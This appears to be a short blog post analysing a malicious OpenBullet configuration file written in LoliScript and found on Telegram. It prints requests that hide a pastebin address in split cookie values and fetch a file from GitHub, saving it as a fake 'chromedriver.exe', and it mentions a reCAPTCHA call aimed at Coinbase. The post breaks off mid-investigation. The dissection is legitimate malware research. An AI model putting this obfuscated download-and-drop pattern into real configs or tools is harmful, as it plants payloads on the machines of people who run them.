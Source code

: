 

While I was doing some web surfing I was looking at Some selenium drivers like Openbullet. While browsing I found a Telegram channel which was posting configuration files for this using the programming language "Loliscript" and yes that is the real name. 


Lets get started.

Source code.

Since the script is Interpreted by open bullet . Some interesting HTTP requests stuck out to me.

```
REQUEST GET "https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LfAM84ZAAAAAGLiQz5FBeADqq94dV48fMtiRqIj&co=aHR0cHM6Ly93d3cuY29pbmJhc2UuY29tOjQ0Mw..&hl=en&v=rPvs0Nyx3sANE-ZHUN-0nM85&size=invisible&cb=no851blwqc0u"
  COOKIE "hrd: /"
  COOKIE "hpr: bin"
  COOKIE "hdp: com"
  COOKIE "htp: raw"
  COOKIE "hht: RST8XsHH"
  COOKIE "hst: pastebin"
  COOKIE "kht: driver"
  COOKIE "kpt: chrome"
  COOKIE "krt: e"
  HEADER "Host: www.googleapis.com"
  HEADER "Accept: */*"
  HEADER "Content-Type: application/json"
  HEADER "X-Client-Version: iOS/FirebaseSDK/6.9.2/FirebaseCore-iOS"
  HEADER "X-Ios-Bundle-Identifier: network.googleapis.com"
  HEADER "Accept-Encoding: gzip, deflate"
  HEADER "User-Agent: FirebaseAuth.iOS/6.9.2 network.googleapis.com/2.7.9 iPhone/12.4.5 hw/iPhone7_2"
  HEADER "Accept-Language: en"
```

As you can see in this there is strange cookies When put together it is this URL 
https://pastebin.com/RST8XsHH
When you go here it has in text this.
samplecollectionAPI/api/main/ocean

I assume this is some weird endpoint on their c2 server. This is confirmed as when i find another function 

```
REQUEST GET "https://raw.githubusercontent.com/<SOURCE>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"
  -> FILE "<COOKIES(hpr)>/<COOKIES(kpt)><COOKIES(kht)>.<COOKIES(krt)>xe"

```

This function is getting a file from raw.githubusercontent from the <source/> endpoint after trying to look through the source code and documentation for this scripting language I just decide to test something.
